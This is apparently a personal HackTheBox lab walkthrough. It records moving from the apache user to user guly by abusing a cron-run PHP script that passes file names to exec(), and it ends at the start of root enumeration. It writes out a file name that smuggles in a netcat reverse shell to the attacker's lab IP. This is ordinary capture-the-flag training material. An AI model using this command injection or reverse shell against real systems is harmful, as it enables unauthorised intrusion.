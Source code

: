 Get interactive shell. 

❗got initial access❗
as apache user :(
### Enumerate for lateral movement
Cannot view the guly user's files. How do we become guly

![[HackTheBox/Linux/attachments/Pasted image 20250508192126.png]]

We can see `crontab.guly` is executing `check_attack.php`

![[HackTheBox/Linux/attachments/Pasted image 20250508192231.png]]

Here is `check_attack.php`

We just have to figure out how to execute code through this script
![[HackTheBox/Linux/attachments/Pasted image 20250508192352.png]]
- first check to see if we can change `/var/www/html/lib.php`

This file is owned by root, so no
![[HackTheBox/Linux/attachments/Pasted image 20250508192508.png]]

### Priv esc to Guly by exploiting php Exec() function

Exec() in php is like system, which can execute anything 

We can control the $value here which is the filename because we can put files in the directory 
![[HackTheBox/Linux/attachments/Pasted image 20250508193857.png]]

Here is the malicious script so that the web server thinks this is malicious 
```
touch -- ';nc -c bash 10.10.14.10 9001;.php'
```
![[HackTheBox/Linux/attachments/Pasted image 20250508194100.png]]

File is here in the uploads
![[HackTheBox/Linux/attachments/Pasted image 20250508194311.png]]

Set up nc listener to catch rev shell 

We are ❗guly user ❗
![[HackTheBox/Linux/attachments/Pasted image 20250508194451.png]]

Get interactive shell again.

### Search for Priv Esc to Root

Run `sudo -l`

![[HackTheBox/Linux/attachments/Pasted image 20250508194648.png]]
- guly may be able to run `changename.sh` as root
